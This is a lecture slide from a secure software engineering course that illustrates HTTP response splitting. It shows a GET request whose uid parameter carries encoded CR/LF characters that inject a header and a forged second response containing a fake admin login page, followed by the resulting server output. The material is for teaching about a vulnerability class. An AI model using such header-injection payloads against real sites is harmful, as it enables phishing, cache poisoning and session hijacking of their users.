

# HTTP Response Splitting Example
Use header injection to create a 2nd response.
	GET /foo.php?uid=123%0d%0aFoo:+bar%0d%0a %0d%0a<html>foo</html>%0d%0aHTTP/1.1+200+OK %0d%0aContent-Length:+1234<html>Admin Login</html>

HTTP/1.1 200 OK
Set-Cookie: UserId=123
Foo: bar
<html>foo</html>
HTTP/1.1 200 OK
Content-Length: 1234
<html>Admin Login</html>

CSC 666: Secure Software Engineering